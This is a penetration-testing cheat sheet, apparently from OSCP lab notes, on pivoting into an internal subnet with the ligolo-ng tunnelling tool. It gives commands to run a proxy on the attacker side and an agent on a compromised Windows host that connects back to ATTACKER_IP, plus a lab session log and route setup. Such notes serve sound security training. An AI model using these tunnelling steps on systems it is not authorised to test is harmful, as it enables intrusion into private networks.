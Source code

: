 
#### Setting up
Creating the `ligolo` network device:
```
sudo ip tuntap add user CURRENT_USERNAME mode tun ligolo
sudo ip link set ligolo up
```

#### Starting the proxy (attacker machine)
```
./proxy -selfcert
```

#### Starting the agent (target machines)
```
ligolo-agent.exe -connect ATTACKER_IP:ATTACKER_PORT -ignore-cert
```

#### Adding the target IP route to the `ligolo` Networking device
Get the subnet from Ligolo: `Sessions --> select session --> ifconfig`. Make sure to replace the last octet with a `0`
```
ip route add SUBNET/24 dev ligolo
```
If the error message `Error: Invalid prefix for given prefix length.` pops up, set the last octet to `0`.
Cleaning up:
```
ip route del SUBNET/24
```


##### Example: Windows target
```
┌─[root@edu-virtualbox]─[/tmp/oscp]
└──╼ #./proxy -selfcert
WARN[0000] Using automatically generated self-signed certificates (Not recommended) 
INFO[0000] Listening on 0.0.0.0:11601                   
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

  Made in France ♥            by @Nicocha30!

ligolo-ng » INFO[0010] Agent joined.                                 name="MULTISERVER03\\rdp_admin@MULTISERVER03" remote="192.168.171.64:56242"
ligolo-ng » session
? Specify a session : 1 - #1 - MULTISERVER03\rdp_admin@MULTISERVER03 - 192.168.171.64:56242
[Agent : MULTISERVER03\rdp_admin@MULTISERVER03] » ifconfig
┌───────────────────────────────────────────────┐
│ Interface 0                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet0                      │
│ Hardware MAC │ 00:50:56:9e:9e:e7              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv6 Address │ fe80::80af:e261:645f:a8f/64    │
│ IPv4 Address │ 192.168.171.64/24              │
└──────────────┴────────────────────────────────┘
┌───────────────────────────────────────────────┐
│ Interface 1                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet1                      │
│ Hardware MAC │ 00:50:56:9e:54:7e              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv6 Address │ fe80::41f2:e449:cbf7:4b1e/64   │
│ IPv4 Address │ 10.4.171.64/24                 │
└──────────────┴────────────────────────────────┘
┌──────────────────────────────────────────────┐
│ Interface 2                                  │
├──────────────┬───────────────────────────────┤
│ Name         │ Loopback Pseudo-Interface 1   │
│ Hardware MAC │                               │
│ MTU          │ -1                            │
│ Flags        │ up|loopback|multicast|running │
│ IPv6 Address │ ::1/128                       │
│ IPv4 Address │ 127.0.0.1/8                   │
└──────────────┴───────────────────────────────┘
[Agent : MULTISERVER03\rdp_admin@MULTISERVER03] »  

// Another terminal
┌─[✗]─[root@edu-virtualbox]─[/tmp/oscp]
└──╼ #ip route add 10.4.171.0/24 dev ligolo

// Back to the session

```